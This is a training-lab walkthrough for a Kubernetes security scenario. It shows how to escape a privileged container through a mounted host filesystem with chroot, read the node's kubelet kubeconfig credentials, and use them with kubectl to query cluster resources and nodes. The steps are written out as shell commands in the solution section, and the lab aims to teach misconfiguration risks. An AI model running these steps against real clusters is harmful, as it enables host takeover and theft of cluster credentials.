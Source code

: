 # ⎈ Container escape to the host system

## 🙌 Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

![](images/scenario-4.png)

By the end of the scenario, you will understand and learn the following:

1. Able to exploit the container and escape out of the docker container
2. You will learn to test and exploit the misconfigured and privileged containers
3. Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

### ⚡️ The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

:::info

To get started with the scenario, navigate to [http://127.0.0.1:1233](http://127.0.0.1:1233)

:::

![Scenario 4 Welcome](images/sc-4-1.png)

### 🎯 Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

:::tip

Gain access to the host system and obtain the node level kubeconfig file `/var/lib/kubelet/kubeconfig`, and query the Kubernetes nodes using the obtained configuration.

:::

### 🪄 Hints & Spoilers

<details>
  <summary><b>✨ Are you still in the container? </b></summary>
  <div>
    <div>See the mounted file systems, also look the capabilities available for the container using <b>capsh</b> 🙌</div>
  </div>
</details>

<details>
  <summary><b>✨ Escaped container? </b></summary>
  <div>
    <div>You can recon the system, some interesting places to obtain the node level configuration are <b>/var/lib/kubelet/kubeconfig</b> and I hope you know how to query Kubernetes API for nodes? 🎉</div>
  </div>
</details>

## 🎉 Solution & Walkthrough

### 🎲 Method 1

* After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```bash
capsh --print
```

```bash
mount
```

* Now you can explore the mounted file system by navigating to the `/host-system` path

```bash
ls /host-system/
```

![Scenario 4 host system](images/sc-4-2.png)

* You can gain access to the host system privileges using `chroot`

```bash
chroot /host-system bash
```

* As you can see, now you can access all the host system resources like docker containers, configurations, etc.

```bash
docker ps
```

![Scenario 4 chroot host](images/sc-4-3.png)

* The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```bash
cat /var/lib/kubelet/kubeconfig
```

![Scenario 4 kubelet config](images/sc-4-4.png)

:::tip

You can use the available `kubectl` command-line utility to explore other resources using the obtained configuration. Also, you can leverage lots of other potential things by using the available utilities or downloading them as required.

:::

* Using the kubelet configuration to list the Kubernetes cluster-wide resources

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

![Scenario 4 get kube-system](images/sc-4-5.png)

:::info

From here you can go beyond by performing the lateral moment and a post-exploitation based on the available setup, configuration, and resources
:::

* You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```bash
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

* Hooray 🥳 , now you can see that it returns the cluster nodes available as we have the privilege/permissions with obtained configuration to query the Kubernetes API server


## 🔖 References

* [Realworld case study of exploiting cap_sys_ptrace capability](https://madhuakula.com/content/attacking-and-auditing-docker-containers-using-opensource/attacking-docker-containers/capability.html)
* [Abusing Privileged and Unprivileged Linux Containers - NCC Group Whitepaper](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)
* [Understanding and Hardening Linux Containers - NCC Group Whitepaper](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)

